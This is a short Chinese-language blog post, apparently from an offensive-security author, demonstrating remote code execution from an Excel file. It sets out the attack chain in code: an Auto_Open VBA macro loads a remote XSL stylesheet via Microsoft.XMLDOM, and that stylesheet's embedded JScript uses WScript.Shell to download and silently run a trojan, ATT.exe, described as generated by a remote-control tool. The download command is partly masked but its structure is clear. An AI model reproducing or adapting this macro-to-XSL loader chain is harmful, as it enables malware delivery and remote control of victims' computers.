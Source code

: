 ```yaml
---
title: EXCEL远程执行
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


# EXCEL远程执行
## EXCEL远程执行演示
<video src="/public/video/RemoteExecution.mp4" width="680px" height="480px" controls="controls"></video>

## 准备工作：<br>
**1.创建以下两个文件<br>**
<font color=Red face="黑体">
excel.xsl<br>
ATT.xsl<br>
ATT.exe<br>
</font>

> excel.xsl

```
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://127.0.0.1:80/ATT.xsl"
    XML.transformNode xsl
End Sub
```

> ATT.xsl
```
<xsl:stylesheet 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" 
xmlns:user="placeholder" 

version="1.0">
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd xxxxx -xx 127.0.1.1/ATT.exe xxxx/ATT.exe & start xxxx/ATT.exe",0);
  ]]>
</ms:script>
</xsl:stylesheet>
```
> ATT.exe
```
这是远控生成的木马
```
**<font color=Red face="黑体">将ATT.xsl调用ATT.exe执行,当excel.xsl打开就会进行远程加载ATT.xsl并下载在本地执行ATT.exe木马程序；</font>**

